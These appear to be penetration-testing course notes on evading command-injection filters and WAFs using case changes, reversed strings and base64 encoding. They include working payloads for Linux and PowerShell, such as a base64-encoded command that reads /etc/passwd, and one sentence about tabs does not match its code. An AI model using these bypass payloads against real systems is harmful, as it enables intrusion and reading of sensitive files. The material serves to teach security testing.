 One command obfuscation technique we can use is case manipulation, like inverting the character cases of a command (e.g. `WHOAMI`) or alternating between cases (e.g. `WhOaMi`). This usually works because a command blacklist may not check for different case variations of a single word, as Linux systems are case-sensitive.

If we are dealing with a Windows server, we can change the casing of the characters of the command and send it. In Windows, commands for PowerShell and CMD are case-insensitive, meaning they will execute the command regardless of what case it is written in:

```powershell
WhOaMi
```

```shell
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

Once we replace the spaces with tabs (`%09`), we see that the command works perfectly:

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

---
## Reversed Commands


```shell
echo 'whoami' | rev
```

```shell
$(rev<<<'imaohw')
```

 If you wanted to bypass a character filter with the above method, you'd have to reverse them as well, or include them when reversing the original command.
 
The same can be applied in `Windows.` We can first reverse a string, as follows:

```powershell
"whoami"[-1..-20] -join ''
```

We can now use the below command to execute a reversed string with a PowerShell sub-shell (`iex "$()"`), as follows:

```powershell
iex "$('imaohw'[-1..-20] -join '')"
```

---

## Encoded Commands

The final technique we will discuss is helpful for commands containing filtered characters or characters that may be URL-decoded by the server. This may allow for the command to get messed up by the time it reaches the shell and eventually fails to execute. Instead of copying an existing command online, we will try to create our own unique obfuscation command this time. This way, it is much less likely to be denied by a filter or a WAF. The command we create will be unique to each case, depending on what characters are allowed and the level of security on the server.

We can utilize various encoding tools, like `base64` (for b64 encoding) or `xxd` (for hex encoding). Let's take `base64` as an example. First, we'll encode the payload we want to execute (which includes filtered characters):

```shell
echo -n 'cat /etc/passwd | grep 33' | base64
```


```shell
 bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```
Note that we are using `<<<` to avoid using a pipe `|`, which is a filtered character.

Even if some commands were filtered, like `bash` or `base64`, we could bypass that filter with the techniques we discussed in the previous section (e.g., character insertion), or use other alternatives like `sh` for command execution and `openssl` for b64 decoding, or `xxd` for hex decoding.

We use the same technique with Windows as well. First, we need to base64 encode our string, as follows:

```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
```

```shell
echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```

```powershell
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```

In addition to the techniques we discussed, we can utilize numerous other methods, like wildcards, regex, output redirection, integer expansion, and many others. We can find some such techniques on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion).




